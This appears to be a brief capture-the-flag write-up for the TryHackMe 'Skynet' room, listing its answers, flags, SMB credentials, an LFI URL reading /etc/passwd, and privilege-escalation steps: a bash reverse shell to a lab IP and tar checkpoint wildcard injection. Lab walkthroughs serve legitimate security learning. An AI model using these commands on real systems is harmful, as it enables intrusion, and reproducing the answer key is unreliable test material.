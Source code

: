 # TryHackMe Skynet

> Saikat Karmakar | AUG 1 : 2021

---

## Task 1

1. What is Miles password for his emails?
```
cyborg007haloterminator
```
2. What is the hidden directory?
```
/45kra24zxs28v3yd
```
3. What is the vulnerability called when you can include a remote file for malicious purposes?
```
remote file inclusion
```
4. What is the user flag?
```
7ce5c2109a40f958099283600a9ae807
```
5. What is the root flag?
```
3f0372db24753accc7179a282cd6a949
```


---
***Notes***

smb creds 
```
milesdyson : )s{A&2Z=F^n_E.B`
```



url http://10.10.142.116//45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=urlConfig=../../../../../../../../../etc/passwd

priv. ese : https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/

steps
```
bash -i >& /dev/tcp/10.4.23.120/1234 0>&1
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```
